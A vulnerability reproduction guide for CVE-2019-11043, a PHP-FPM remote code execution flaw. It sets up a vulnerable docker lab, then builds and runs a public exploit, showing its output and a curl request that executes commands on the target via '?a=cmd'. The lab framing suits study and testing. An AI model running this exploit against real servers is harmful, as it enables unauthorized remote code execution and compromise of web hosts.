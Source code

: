 ﻿# CVE-2019-11043

## Description

- PHP 5.6 : PHP-FPM Crash?紝DOS

- PHP 7.0 : RCE

- PHP 7.1 : RCE

- PHP 7.2 : RCE

- PHP 7.3 : RCE

| Item           | Value                                         | Remark |
| -------------- | --------------------------------------------- | ------ |
| Risk Level     | HIGH                                          |        |
| Attack Type    | Remote Code Execution                         |        |
| Attack Postion | URI                                           |        |
| Principle      | [Link](https://bugs.php.net/bug.php?id=78599) | %0A    |

## Environment

`php-fpm`:7.3.0 + `nginx`:1.14.2

```bash
# downlaod docker(include php-fpm and nginx)
docker pull lubinlew/cve-2019-11043

# run the docker
docker run -d -p 40080:80 --name cve-2019-11043 lubinlew/cve-2019-11043:latest
```

## Reappear

- Compile [POC](https://github.com/neex/phuip-fpizdam)
  
  ```bash
  git clone https://github.com/neex/phuip-fpizdam.git
  cd phuip-fpizdam
  go get -v && go build
  ```

- Run POC
  
  ```bash
  ./phuip-fpizdam http://<IP-Address>:40080/index.php
  
  2020/10/13 14:10:22 Base status code is 200
  2020/10/13 14:10:22 Status code 502 for qsl=1765, adding as a candidate
  2020/10/13 14:10:22 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
  2020/10/13 14:10:22 Attack params found: --qsl 1760 --pisos 49 --skip-detect
  2020/10/13 14:10:22 Trying to set "session.auto_start=0"...
  2020/10/13 14:10:22 Detect() returned attack params: --qsl 1760 --pisos 49 --skip-detect <-- REMEMBER THIS
  2020/10/13 14:10:22 Performing attack using php.ini settings...
  2020/10/13 14:10:22 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
  2020/10/13 14:10:22 Trying to cleanup /tmp/a...
  2020/10/13 14:10:22 Done!
  ```

- Now you can execute command with `?a=cmd`
  
  ```bash
  curl http://<IP-Address>:40080/index.php?a=id
  uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
  Hello World!
  ```

## References

http://blog.leanote.com/post/snowming/9da184ef24bd

https://bugs.php.net/bug.php?id=78599

[GitHub - neex/phuip-fpizdam: Exploit for CVE-2019-11043](https://github.com/neex/phuip-fpizdam)
